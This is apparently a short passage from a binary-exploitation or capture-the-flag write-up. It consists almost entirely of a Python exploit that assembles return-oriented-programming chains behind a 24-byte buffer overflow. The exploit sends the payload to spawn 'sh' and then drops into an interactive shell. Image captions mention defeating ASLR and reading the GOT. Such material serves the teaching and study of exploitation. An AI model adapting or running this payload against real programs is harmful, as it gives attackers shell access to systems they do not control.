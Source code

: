 ```python
rop13 = [
 pop_rdi_ret, buf8, gets_plt, # shell command
 pop_rdi_ret, buf8,
 pop_rbx_rbp_r12_r13_r14_r15_ret, 0, 0, buf2 + 24, 0, 0, 0,
 call_at_r12
]

payload = (
 'A' * 24 +
 ''.join(map(p64, rop1)) + '\n' +
 ''.join(map(p64, rop2)) + '\n' +
 ''.join(map(p64, rop4)) + '\n' +
 ''.join(map(p64, rop5)) + '\n' +
 ''.join(map(p64, rop7)) + '\n' +
 ''.join(map(p64, rop9)) + '\n' +
 ''.join(map(p64, rop10)) + '\n' +
 ''.join(map(p64, rop13)) + '\n' +
 ''.join(map(p64, rop3))[:-1] + '\n' +
 ''.join(map(p64, rop6_1))[:-1] + '\n' +
 ''.join(map(p64, rop6_2)) + '\n' +
 ''.join(map(p64, rop8)) + '\n' +
 ''.join(map(p64, rop11_1))[:-1] + '\n' +
 ''.join(map(p64, rop11_2)) + '\n' +
 ''.join(map(p64, rop12)) + '\n' +
 'sh\n'
)
p.send(payload)
p.interactive()
```

![w5-x64-deaslr-process](w5-x64-deaslr-process.png)

![w5-getv-from-got](w5-getv-from-got.png)
